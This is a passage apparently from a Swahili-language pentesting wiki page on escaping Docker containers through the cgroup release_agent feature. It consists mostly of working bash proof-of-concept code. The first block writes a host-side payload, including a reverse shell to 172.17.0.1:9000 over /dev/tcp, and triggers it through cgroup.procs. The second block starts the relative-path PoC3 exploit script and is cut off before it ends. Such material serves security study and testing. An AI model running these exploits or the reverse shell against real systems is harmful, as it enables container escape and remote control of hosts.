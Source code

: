 ```bash
#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/172.17.0.1/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
{% endcode %}

Pata **maelezo ya mbinu** katika:

{% content-ref url="docker-release_agent-cgroups-escape.md" %}
[docker-release\_agent-cgroups-escape.md](docker-release\_agent-cgroups-escape.md)
{% endcontent-ref %}

#### Kutoroka kwa Haki Kwa Kutumia release\_agent bila kujua njia ya kihesabu - PoC3

Katika mbinu za awali **njia kamili ya kontena ndani ya mfumo wa mwenyeji inafichuliwa**. Walakini, hii sio kila wakati kesi. Katika hali ambapo **haujui njia kamili ya kontena ndani ya mwenyeji** unaweza kutumia mbinu hii:

{% content-ref url="release_agent-exploit-relative-paths-to-pids.md" %}
[release\_agent-exploit-relative-paths-to-pids.md](release\_agent-exploit-relative-paths-to-pids.md)
{% endcontent-ref %}
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
```
